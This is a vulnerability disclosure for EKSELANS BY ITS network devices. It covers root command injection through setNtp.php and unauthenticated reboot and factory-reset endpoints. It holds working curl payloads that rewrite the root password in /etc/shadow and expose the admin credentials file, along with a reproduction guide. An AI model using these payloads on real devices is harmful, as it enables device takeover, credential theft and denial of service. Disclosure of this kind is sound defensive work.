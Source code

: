 
# 🔥 Unauthenticated RCE and Full Device Compromise on EKSELANS by ITS Devices

## Summary

Multiple network devices manufactured by **EKSELANS BY ITS** (https://www.ek.plus/) are affected by a set of critical vulnerabilities that allow **unauthenticated attackers** to:

- Gain **root remote code execution (RCE)**,
- **Extract sensitive information** including admin credentials,
- **Change system configuration**, including the root password,
- **Trigger device reboot** and **factory reset** via unauthenticated endpoints,
- Ultimately perform **full device takeover** and **persistent denial-of-service (DoS)**.

These issues stem from improper input validation and unsafe use of shell commands in PHP CGI scripts exposed via the web interface.

---

## Affected Devices

The following EKSELANS BY ITS devices were tested and found vulnerable:

- TR750  
- TR1200  
- TR1200OLP  
- TR1300  
- TR2200  
- TR3000W6  
- TR3000W6OLP  
- AP1200 W2  
- AP 300  
- AP300 LP  
- AP750 NG  

**⚠️ Note:** Other devices in the EKSELANS product line may also be vulnerable, but have not yet been tested.

---

## Vulnerability 1 – Remote Code Execution (RCE) as Root via `setNtp.php`

### Description

The script at:

```
http://<device-ip>/cgi-bin/setNtp.php
```

is intended to update the system's timezone setting via the `Zone` POST parameter. However, it directly injects this input into a shell command using `shell_exec()` **without sanitization**, allowing arbitrary command execution as **root**.

### Risk Level: **Critical**

This leads to:
- Full root-level remote code execution (RCE)
- Unauthorized modification of system files (e.g. `/etc/shadow`)
- Persistence (e.g. SSH backdoor)
- Exfiltration of configuration and credentials
- Bricking of the device
- Further internal network exploitation

---

### Exploit Proofs-of-Concept (PoC)

#### 🔓 PoC 1 – Change root password to `toor` for future SSH access:

```bash
curl -X POST http://<target-ip>/cgi-bin/setNtp.php \
  -d "Zone=CET\"';sed -i 's#^root:[^:]*:#root:\$1\$Awiloz1g\$Je46CvkpbqUExnTav0W580:#' /etc/shadow;echo Z #"
```

This injects a new password hash into `/etc/shadow` for the `root` user.

> 🛠️ *The hash corresponds to the password: `toor`*

---

#### 📁 PoC 2 – Exfiltrate web admin credentials:

```bash
curl --location 'http://<device-ip>/cgi-bin/setNtp.php' \
--form 'Zone="UTC'''; cp /etc/config/systemconf/config/account.conf /www/cgi-bin/pwned3.php; echo '''"'
```

You can now download the credentials at:

```
http://<device-ip>/cgi-bin/pwned3.php
```

---

### Vulnerable Code (Excerpt)

```php
$cmd = "sed -i '3ioption timezone " . $zone . "'" . " /etc/config/system";
shell_exec($cmd);
```

The `Zone` parameter is directly concatenated into a shell command, enabling arbitrary code execution.

---

## Vulnerability 2 – Unauthenticated Reboot via `devmanage_reboot.php`

### Description

A simple unauthenticated request to:

```
http://<device-ip>/cgi-bin/devmanage_reboot.php
```

**immediately reboots the device**, without requiring login or confirmation.

This could allow attackers to:
- Cause **persistent DoS**
- Disrupt connectivity or network availability
- Exploit race conditions with other vulnerabilities

---

## Vulnerability 3 – Unauthenticated Factory Reset

### Description

A simple unauthenticated request to:

```
http://<device-ip>/cgi-bin/devmanage_resetDefault.php
```

in some firmware versions or configurations **triggers a full factory reset**, erasing custom settings, access credentials, and other user data.

This may result in:
- **Erasure of forensic evidence**
- **Loss of device access for legitimate users**
- Further **chaining of exploits** to set malicious defaults or gain persistence

---

## Step-by-Step Reproduction Guide

1. Identify a vulnerable EKSELANS device on the network.
2. Use `curl` or any HTTP client to POST to `/cgi-bin/setNtp.php` with a malicious `Zone` value.
3. Optionally extract files or drop a webshell using the same method.
4. For reboot/factory reset, issue a GET request to `/cgi-bin/devmanage_resetDefault.php`.


---

## Disclosure Timeline

- 15/04/2025  – Vendor notification in progress.

- 28/04/2025 – Public disclosure.

---

## Credits

Discovered and responsibly disclosed by **miitro**

---

## Disclaimer

This information is provided for educational and defensive security purposes. The author is not responsible for any misuse of this information.
